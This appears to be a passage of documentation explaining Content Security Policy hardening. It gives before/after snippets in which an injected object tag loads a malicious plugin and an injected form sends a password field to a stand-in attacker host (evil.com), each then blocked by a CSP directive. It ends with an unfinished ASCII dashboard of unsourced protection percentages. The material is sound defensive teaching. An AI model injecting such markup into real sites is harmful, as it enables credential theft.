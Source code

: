 **BEFORE:**
```html
<!-- Attacker injects Flash/Java object -->
<object data="malicious.swf">
  <!-- Plugin loads and executes 😱 -->
</object>
```
**Result:** ❌ Plugin executes, system compromised

**AFTER:**
```html
<!-- Attacker tries to inject plugin -->
<object data="malicious.swf">
  <!-- Blocked by object-src 'none' 🛡️ -->
</object>
```
**Result:** ✅ Blocked - Objects disabled
**Console:** `Refused to load object because it violates CSP`

---

### Form Hijacking

**BEFORE:**
```html
<!-- Attacker modifies form action -->
<form action="https://evil.com/steal">
  <!-- Form submits to attacker's site 😱 -->
  <input type="password" name="pwd">
</form>
```
**Result:** ❌ Credentials sent to attacker

**AFTER:**
```html
<!-- Attacker tries to modify form -->
<form action="https://evil.com/steal">
  <!-- Blocked by form-action 'self' 🛡️ -->
  <input type="password" name="pwd">
</form>
```
**Result:** ✅ Blocked - Form submission prevented
**Console:** `Refused to send form data because action violates CSP`

---

## Security Metrics Dashboard

```
┌─────────────────────────────────────────────────────────────┐
│  Security Improvement Metrics                               │
├─────────────────────────────────────────────────────────────┤
│                                                             │
│  XSS Protection:                                            │
│    BEFORE: [██░░░░░░░░] 20% (basic filtering only)         │
│    AFTER:  [██████████] 95% (hash-based whitelisting)      │
│                                                             │
│  Clickjacking Protection:                                   │
│    BEFORE: [████░░░░░░] 40% (X-Frame-Options only)         │
│    AFTER:  [██████████] 100% (frame-ancestors + X-Frame)   │
│                                                             │
│  Plugin Attack Protection:                                  │
│    BEFORE: [░░░░░░░░░░] 0% (no protection)                 │
│    AFTER:  [██████████] 100% (object-src blocked)          │
│                                                             │
│  Form Hijacking Protection:                                 │
│    BEFORE: [░░░░░░░░░░] 0% (no protection)                 │
```